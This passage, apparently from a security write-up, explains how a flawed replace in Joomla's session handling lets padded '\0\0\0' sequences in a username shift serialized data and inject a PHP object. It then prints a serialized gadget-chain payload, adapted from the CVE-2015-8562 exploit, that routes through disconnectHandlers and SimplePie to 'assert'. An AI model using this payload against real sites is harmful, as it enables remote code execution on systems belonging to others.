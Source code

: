 ```php
[..]s:8:s:"username";s:10:"MYUSERNAME";s:8:"password";s:10:"MYPASSWORD"[...]
```

As you can see, the distance from the end of the username value and the start of the password is 27 bytes. The vulnerable replace let us decrease the value with a multiple of 3 (6 bytes - 3 bytes) so we need at least 8 times `\0\0\0` in the username field that will cause a simple padding of 1 extra character in the second parameter in our exploit (in the POC I used 9 times `\0\0\0` to be sure).

In bold, what unserialize read for the `username`:

---
(in database)
s:8:s:"username";s:54:"**\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0**";s:8:"password";s:10:"MYPASSWORD"


(after read and replace)
s:8:s:"username";s:54:"**NNNNNNNNNNNNNNNNNNNNNNNNNNN";s:8:"password";s:10:"MYPA**SSWORD"

(Achieve Object injection):
s:8:s:"**username**";s:54:"**NNNNNNNNNNNNNNNNNNNNNNNNNNN";s:8:"password";s:10:"MYPA**";s:2:"HS":O:15:"ObjectInjection"[...]

---
We have a stable way to inject an Object, now it’s the time to craft it.
We can use the payload from the CVE-2015-8562 exploit as a starting point, however it requires some modification:

```php
O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";
```

This payload will instantiate a `JDatabaseDriverMysqli` object and assign an array of other objects in the `disconnectHandlers` attribute (a protected array variable). This is because the defined `__destruct` of this class will call `$this->disconnect()`, that leads to an interesting `call_user_func_array()`:

![img8|500](/notes/images/rusty/4.png)
